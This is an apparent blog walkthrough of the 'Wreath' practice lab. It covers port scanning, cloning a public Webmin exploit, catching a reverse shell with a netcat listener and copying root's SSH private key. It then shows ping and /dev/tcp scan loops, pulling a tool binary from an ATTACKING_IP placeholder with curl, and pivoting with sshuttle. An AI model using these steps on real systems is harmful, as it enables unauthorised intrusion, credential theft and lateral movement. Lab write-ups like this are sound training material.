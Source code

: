 +++
date = '2024-11-18T21:56:18+01:00'
draft = false
title = 'Wreath Walkthrough'
+++


# Wreath Walkthrough

# Enumeration

Nmap scan for open ports

```
nmap -p-15000 -vv 10.200.81.200
```

Nmap scan for OS recognition through headers

```
nmap -vv 10.200.81.200 --script=http-headers
```

# Exploitation

Once vulnerability is found, download script from github.

```
git clone https://github.com/MuirlandOracle/CVE-2019-15107
```

For python pip install:

```
sudo apt install python3-pip
```

If privileges are missing use:

```
chmod +x yourfile.py
```

Now we can open the reverse shell:

![](/images/wreath/wreath1.png)

Set up netcat listener to catch reverse shell.

```
nc -lvnp 4444
```

Use rlwrap to stabilise the shell.

Now lets get ssh credentials since we won't be able to crack password hash.

Go to: root/.ssh/id\_rsa

Copy the content of the file to another and use the following command to log through ssh

```
ssh -i key.txt root@ip
```

# Pivoting

Important paths:

File with DNS entries: /etc/resolv.conf

Windows hosts: C:\Windows\System32\drivers\etc\hosts

To enumerate the network when nmap or other tools are not installed we should use the following.

Bash ping to analyze the alive connections.

```
for i in {1..255}; do (ping -c 1 10.200.81.${i} | grep "bytes from" &); done
```

We found new host at 10.200.81.250.

Another ping for port enumeration of the network.

```
for i in {1..65535}; do (echo > /dev/tcp/10.200.81.250/$i) >/dev/null 2>&1 && echo $i is open; done
```

Now we are going to transfer a static nmap binary to the machine so we can pivot the network.

Once downloaded start python web server.

```
sudo python3 -m http.server 80
```

```
curl ATTACKING_IP/nmap-USERNAME -o /tmp/nmap-USERNAME && chmod +x /tmp/nmap-USERNAME
```

This way we get the nmap binary on  the machine.

```
.nmap-puursuit -sn 10.200.81.1-255 -oN scan-puursuit
```

We found 100 and 150 accessible, now we perform another scan on them for open ports.

```
./nmap-puursuit -sS 10.200.81.100
./nmap-puursuit -sS 10.200.81.150
```

We have discovered the http service running on port 80 on the .150 machine.

Let's use sshuttle to pivote through the network.

```
sshuttle -r root@10.200.81.200 --ssh-cmd "ssh -i sshkey.txt" 10.200.81.200/24 -x 10.200.81.200
```